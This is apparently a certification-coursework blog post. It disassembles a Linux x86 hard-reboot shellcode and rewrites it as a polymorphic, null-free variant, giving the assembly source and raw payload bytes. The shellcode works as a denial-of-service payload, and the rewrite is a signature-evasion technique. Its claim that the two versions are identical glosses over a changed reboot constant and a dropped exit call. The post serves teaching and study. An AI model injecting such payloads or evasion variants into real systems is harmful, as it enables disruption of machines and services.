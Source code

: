 # Polymorphic conversion of three payloads - part 3

## Hard reboot

The shellcode chosen for this assignment comes from Shellstorm (Hard reboot without any message and data not lost shellcode) and is located at 
<http://shell-storm.org/shellcode/files/shellcode-639.php>.

This shellcode claims to perform an hard reboot and is 33 bytes long. Let's take the shellcode and decompile it.

```
> echo -ne "\xb0\x24\xcd\x80\x31\xc0\xb0\x58\xbb\xad\xde\xe1\xfe\xb9\x69\x19\x12\x28\xba\x67\x45\x23\x01\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80" | ndisasm -b32 -

00000000  B024              mov al,0x24
00000002  CD80              int 0x80
00000004  31C0              xor eax,eax
00000006  B058              mov al,0x58
00000008  BBADDEE1FE        mov ebx,0xfee1dead
0000000D  B969191228        mov ecx,0x28121969
00000012  BA67452301        mov edx,0x1234567
00000017  CD80              int 0x80
00000019  31C0              xor eax,eax
0000001B  B001              mov al,0x1
0000001D  31DB              xor ebx,ebx
0000001F  CD80              int 0x80
```

In a nutshell the following syscalls are used to perform an hard reboot:

```
> man 2 sync
commit filesystem caches to disk
void sync(void);

> man 2 reboot
reboot or enable/disable Ctrl-Alt-Del
int reboot(int magic, int magic2, int cmd, void *arg);

> man 2 exit
terminate the calling process
void _exit(int status);
```

Let's try to modify the syntax of the code without affecting the semantic.

```
; compile with:
; 	nasm -f elf32 shellcode-639-poly.asm
;	ld -o shellcode-639-poly shellcode-639-poly.o
; extract shellcode with:
; 	objdump -d shellcode-639-poly|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\\t' ' '|sed 's/ $//g'|sed 's/ /\\\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

global _start
section .text
    _start:
        mov al,0x23         ; mov in al register the sycall number-1 for sync
        inc al              ; increment the al register to match the syscall number for sync 
        int 0x80            ; interrupt to execute sync syscall
        xor eax, eax        ; zeroing eax to ensure that even in case of failure of sync the reboot syscall number is correctly stored
        mov al, 0x58        ; mov in al the syscall number for the reboot syscall
        mov ebx, 0x7f70ef56 ; 0xfee1dead / 2
        add ebx, ebx        ; recalculate 0xfee1dead
        add ebx, 1          ; recalculate 0xfee1dead
        mov ecx, 0x5121996  ; LINUX_REBOOT_MAGIC2A
        mov edx, 0x2468ace  ; 0x1234567 << 1
        ror edx, 1          ; shift right to get back 0x1234567
        int 0x80            ; interrupt to execute reboot syscall - no need to execute also the exit syscall
```

The resulting shellcode does not contains null bytes and is very different from the initial one, however semantically the two shellcodes are identical. This new shellcode is *34bytes* long.

```
\xb0\x23\xfe\xc0\xcd\x80\x31\xc0\xb0\x58\xbb\x56\xef\x70\x7f\x01\xdb\x83\xc3\x01\xb9\x96\x19\x12\x05\xba\xce\x8a\x46\x02\xd1\xca\xcd\x80
```

<br/>

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.*

<http://securitytube-training.com/online-courses/security-tube-linux-assembly-expert>

*Student-ID: PA-8733*
